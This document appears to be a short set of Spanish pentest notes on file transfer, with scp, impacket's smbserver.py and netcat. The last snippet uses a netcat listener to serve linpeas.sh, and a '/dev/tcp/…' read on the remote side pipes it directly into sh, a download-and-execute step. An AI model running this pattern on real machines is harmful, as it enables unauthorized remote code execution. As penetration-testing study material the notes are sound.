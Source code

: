 https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb

# SCP
Desde máquina remot a local
```
scp -r nico@192.168.1.81:/nico/homer.jpg homer.jpg
```

# SMB
Crear servidor smb
```
smbserver.py <nombre del directorio> <lugar del directorio>
---
smbserver.py lepra .
```

# NC
Máquina local
```
sudo nc -q 5 -lvnp 8888 < linpeas.sh
```
Máquina remota
```
cat < /dev/tcp/192.168.0.5/8888 | sh
```